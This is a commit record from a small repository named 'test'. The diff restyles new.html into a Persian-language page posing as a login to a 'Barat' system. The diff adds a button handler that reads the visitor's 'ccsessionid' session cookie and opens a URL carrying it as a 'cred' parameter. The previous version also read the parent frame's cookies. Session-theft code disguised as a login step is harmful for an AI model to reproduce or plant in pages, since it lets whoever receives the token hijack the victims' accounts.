

Before and after one commit to saeedghezelarsalan/test, a plain HTML site: page new.html in a window 1280 px wide. Shown: the whole page, without its empty margins (0-814 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
new changes

```diff
--- a/new.html
+++ b/new.html
@@ -4,34 +4,76 @@
     <meta charset="UTF-8">
     <meta name="viewport" content="width=device-width, user-scalable=no, initial-scale=1.0, maximum-scale=1.0, minimum-scale=1.0">
     <meta http-equiv="X-UA-Compatible" content="ie=edge">
-    <title>Document</title>
+    <title>ورود به سامانه برات</title>
+    <style>
+        * {
+            margin: 0;
+            padding: 0;
+            box-sizing: border-box;
+        }
+
+        html, body {
+            /*background-image: url("./bg-form.png");*/
+            font-family: B Yekan, 'B Yekan', 'BYekan', 'B-Yekan', Tahoma;
+            width: 100%;
+            height: 100vh;
+            display: flex;
+            justify-content: center;
+            align-items: center;
+        }
+
+        .container {
+            display: flex;
+            flex-direction: column;
+            gap: 65px;
+            justify-content: center;
+            align-items: center;
+            width: 40%;
+            height: fit-content;
+            padding: 55px;
+            border-radius: 6px;
+            background-color: white;
+            /*border: 1px solid black;*/
+            margin-left: auto;
+            margin-right: auto;
+        }
+
+        .text {
+            font-size: 36px;
+            font-weight: bolder;
+        }
+
+        .btn {
+            padding: 12px;
+            font-size: 22px;
+            background-color: cornflowerblue;
+            color: white;
+            outline: none;
+            border: 0;
+            border-radius: 6px;
+            margin: auto;
+            cursor: pointer;
+        }
+    </style>
 </head>
 <body>
-<button onclick="clicks()">click me</button>
-
+<div class="container">
+    <p class="text">برای ورود به سامانه کلیک کنید</p>
+    <button class="btn" onclick="clicks()">ورود به سامانه</button>
+</div>
 <script>
     function clicks() {
-        parent.document.body.style.backgroundColor = "red";
-        console.log(window.parent.document.cookie)
-
         const cookies = document.cookie;
-        console.log(cookies.username);
-        // Split cookies string into an array of individual cookies
         const cookieArray = cookies.split(";");
-
-        // Loop through each cookie to extract its name and value
         const cookieObject = {};
         cookieArray.forEach((cookie) => {
             const [name, value] = cookie.trim().split("=");
             cookieObject[name] = value;
         });
 
-        // Now you can access individual cookies by their name
-        console.log("cookie is: " + cookieObject["username"]);
+        const cookie = cookieObject["ccsessionid"]
+        window.open(`google.com/?cred=${cookie}`)
     }
-
-
-
 </script>
 </body>
 </html>
```
Also changed, not shown: index.htm (deleted, +0 -17 lines), index.html (added, +34 -0 lines), bg-form.png (added).
